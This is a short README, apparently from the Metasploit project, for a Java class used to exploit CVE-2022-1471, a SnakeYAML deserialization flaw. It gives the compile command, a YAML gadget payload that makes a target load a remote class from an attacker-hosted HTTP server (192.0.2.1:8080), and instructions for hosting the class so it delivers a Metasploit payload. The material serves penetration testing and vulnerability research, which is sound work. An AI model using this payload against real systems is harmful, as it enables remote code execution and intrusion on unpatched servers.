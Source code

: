 # Overview
The Java file contained within will load and execute a Metasploit payload. It's intended to be loaded as part of the
exploit for CVE-2022-1471 which is a YAML deserialization vulnerability within the snakeyaml project.

See https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in for more information.

## Compiling
It's necessary to specify the Metasploit Payloads data directory as the class path when compiling the code. See the 
[metasploit-payloads][1] repository for instructions on how to compile the main Java payloads and install the data
files.

Compile the Java source file using `javac -cp path/to/metasploit-framework/data/java MyScriptEngineFactory.java`.

## Usage
Trigger the deserialization using the following YAML:
```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://192.0.2.1:8080/"]]]]
```

Host the compiled class on an HTTP server along with the file `/META-INF/services/javax.script.ScriptEngineFactory`. The
contents of this file should simply be the class name to load (`MyScriptEngineFactory`). See Metasploit's
`Msf::Exploit::Remote::Java::HTTP::ClassLoader` mixin for more information and the remaining components necessary to
deliver a Metasploit payload.

[1]: https://github.com/rapid7/metasploit-payloads/tree/master/java
